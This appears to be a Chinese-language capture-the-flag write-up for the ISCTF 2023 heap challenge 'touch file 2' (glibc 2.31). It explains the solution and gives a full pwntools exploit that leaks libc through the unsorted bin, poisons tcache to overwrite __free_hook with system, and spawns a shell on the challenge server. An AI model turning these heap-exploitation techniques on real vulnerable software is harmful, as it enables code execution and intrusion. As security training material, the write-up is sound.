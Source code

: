 ```yaml
---
title: isctf2023 - touch file 2
date: 2023/12/5 12:00:00
tags:
    - heap - tcache
    - libc2.31
---
```


## 文件分析

NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序  
glibc: 2.31

## 解题思路

程序模拟了命令行的执行，是一道简单堆题，主要利用点在cp命令上，
浅拷贝的模式使得uaf、double free十分容易

这道题中分配单元固定，为0x80，分配的chunk大小为0x91，首先分配7个耗尽tcache，
然后分配一个在unsorted bin中，cp+rm+cat读取main_arena，推出libcBase；
再进行tcache dup，把`__free_hook`写上system，最后给一个chunk上写上/bin/sh，
free它就能拿到shell

## 踩过的坑

1. strncpy函数会将size中未输入的部分全部填0，并且复制时是'\0'截断的！这点要注意
2. 这题附件给了ld，给了libc，但是libstdc++之类的其他依赖都没给，这时候借助docker，
下载一个ubuntu容器可以快速解决问题（主要是本地的libcstdc++依赖高版本libc）
3. 手动释放一个chunk到unsorted bin中需要满足对应的后一个chunk处(&chunk + size)
的P位设为1
4. 当getline得到一个超长输入时，会分配一个chunk，用完后释放，可以考虑写入大量垃圾字符，
来触发`malloc_consolidate`（不是用在这题）

## EXPLOIT

```python
# 类型注释包含新版本特性，如无法运行，建议把类型注释删掉
from pwn import *
def execute(*args: str | bytes):
    global sh
    sh.recvuntil(b'>')
    sh.sendline(b' '.join(map(lambda arg: arg.encode() if isinstance(arg, str) else arg, args)))

def payload(lo):
    global sh
    if lo:
        sh = process('./touch_file2')
        if lo & 0b10:
            gdb.attach(sh, gdbscript = 'b *$rebase(0x1ab1)')
    else:
        sh = remote('43.249.195.138', 21815)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')# strncpy 会向dest中补充\0字符！！

    execute('touch', 'a')
    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e')
    execute('touch', 'f')
    execute('touch', 'g')
    execute('touch', 'h')
    execute('rm', 'h')
    execute('rm', 'g')
    execute('rm', 'f')
    execute('rm', 'e')
    execute('rm', 'd')
    execute('rm', 'c')
    execute('rm', 'b')

    execute('cp', 'a', 'aa')
    execute('rm', 'aa') # tcache full (7), free in unsorted bin
    execute('cat', 'a') # print fd (main_arena)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(sh.recvline()[-7:-1] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e') # alloc some chunks to consume tcache for tcache dup

    execute('touch', 'x')
    execute('cp', 'x', 'xx')
    execute('rm', 'xx')
    # tcache linked list status
    # head -> x -> f -> g -> h
    execute('edit', 'x', p64(freeHook))  # next = freeHook, key = 0
    # head -> x -> freeHook -> NULL
    execute('touch', 'y', p64(freeHook)) # next = freeHook, key = 0; without this content, next = 0
    # head -> freeHook -> NULL
    execute('touch', 'z', p64(system))   # modify *freeHook = system
    execute('edit', 'c', '/bin/sh')
    execute('rm', 'c') # free(chunk), *chunk => "/bin/sh", execute system("/bin/sh")

    sh.interactive()

payload(0)
```

Done.

